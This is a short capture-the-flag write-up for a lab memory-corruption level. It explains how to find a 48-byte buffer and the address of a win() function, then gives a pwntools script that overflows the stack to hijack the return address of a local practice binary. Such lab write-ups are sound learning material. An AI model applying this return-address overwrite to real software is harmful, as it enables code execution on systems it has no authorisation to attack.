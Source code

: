 ## Level 3

Our goal is to control PC register and execute `win()` function. So we need to figure out:

1. how many bytes should we overwrite (buffer size + old rbp)
2. the address of win()

Use radare2 to disassemble the ELF executable. According to the amd64 syscall table, we know that the buffer size (rsi) is 0x30 = 48. So we need to cover 48 + 8 (old rbp) + 8 (return address) = 64 bytes in total. Besides, the address of win() is 0x401d9e. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L3-test2-3.PNG?raw=true)

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L3-test2-2.PNG?raw=true)

So the payload is

```python
import pwn 
proc = pwn.process("/babymem_level3_testing2")
proc.sendline("64")
ret_addr = pwn.p64(0x401d9e, endian='little')
payload = b"a" * 56 + ret_addr
proc.sendline(payload)
proc.read(4096)
```

![](https://github.com/chuang76/writ3up/blob/main/figure/babymem-L3-test2-1.PNG?raw=true)



